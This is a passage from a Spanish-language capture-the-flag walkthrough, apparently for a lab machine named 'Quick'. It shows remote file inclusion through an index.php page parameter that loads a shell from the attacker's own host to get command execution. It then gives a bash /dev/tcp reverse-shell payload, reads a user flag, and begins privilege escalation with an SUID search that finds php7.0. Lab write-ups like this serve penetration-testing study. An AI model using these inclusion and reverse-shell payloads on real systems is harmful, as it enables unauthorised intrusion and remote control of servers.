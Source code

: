 Pareciera que el archivo se incluyo, y que accediendo a: **http://192.168.1.88/shell.php** lo podremos ejecutar, pero en realidad no, debemos de hacerlo desde la misma URL de la siguiente forma

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=id
```
Y hemos conseguido RCE

![](/assets/img/quick/4.png)

Ahora nos enviaremos una reverse shell con bash

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=bash -c "bash -i >%26 /dev/tcp/<tu_ip>/443 0>%261"
```

![](/assets/img/quick/5.png)

En este punto podemos leer la flag de user del directorio del usuario **andrew** ya que tiene permisos de lectura para otros

![](/assets/img/quick/6.png)

## Escalada de privilegios

Si buscamos por binarios SUID encontraremos el PHP 7.0:

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/php7.0
```
